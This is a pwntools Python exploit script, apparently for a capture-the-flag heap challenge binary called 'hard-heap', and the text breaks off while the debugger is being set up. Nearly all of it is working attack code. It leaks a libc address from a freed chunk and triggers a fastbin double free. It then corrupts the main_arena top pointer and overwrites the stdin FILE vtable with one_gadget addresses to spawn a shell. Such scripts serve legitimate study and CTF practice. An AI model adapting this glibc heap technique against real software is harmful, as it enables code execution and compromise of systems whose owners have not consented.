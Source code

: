 ```Python
	allocate(0x28,payload) # 10

	log.info("freeing 0x80 chunk to populate chunk with main arena ptr")
	free(1)

	libc_leak = u64(view(1).ljust(8,'\x00'))
	libc.address = libc_leak-0x3c4b78
	main_arena = libc_leak-0x58
	one_gadget = libc.address + 0xf1147 # [rsp+0x70] == 0
	stdin = libc.symbols["_IO_2_1_stdin_"]
	log.info("libc leak: {}".format(hex(libc_leak)))
	log.info("libc base: {}".format(hex(libc.address)))
	log.info("_IO_2_1_stdin_->vtable: {}".format(hex(stdin+0xd8)))
	log.info("one gadget: {}".format(hex(one_gadget)))

	log.info("populating fastbinsY[2] by freeing 0x20 chunk")
	free(2)
	free(3)

	log.info("triggering double free on 0x40 chunk")
	free(4)
	free(5)
	free(4)
	
	log.info("placing {} as target chunk with 0x56 size".format(hex(main_arena+0x1d)))
	allocate(0x48,p64(main_arena+0x1d-0x10)) # 11 -> 4

	log.info("filling chunk content with one_gadgets")
	allocate(0x48,p64(one_gadget)*8+p64(one_gadget)[:7]) # 12 -> 5
	allocate(0x48,p64(one_gadget)*8+p64(one_gadget)[:7]) # 13 -> 4

	log.info("overwriting top ptr with target chunk")
	payload = '\x00'*3
	payload += p64(0)*7
	payload += p64(stdin+0xd8-0x40)
	allocate(0x48,payload) # 14 -> near top

	log.info("subtracting last remainder to 0x30")
	allocate(0x48,'o'*8) # 15

	log.info("overwriting vtable with heap chunk")
	payload = p64(0)*3
	payload += p64(0xffffffff)
	payload += p64(0)*2
	payload += p64(heap_base+0xd0)[:7]
	allocate(0x48,payload) # 16
	sleep(2)

	log.warning("triggering shell via vtable jump")
	r.interactive()

context.terminal = ["tmux","new-window","-c","/tmp"]
# context.log_level = "debug"
context.timeout = 1 # somewhat needed
exe = ELF("./hard-heap")
libc = exe.libc

if len(sys.argv) < 2:
	r = process(exe.path)
	gdb.attach(r,"""
		# pie b *0xb79
		# pie b *0xcbb
		# pie b *0xd6a
```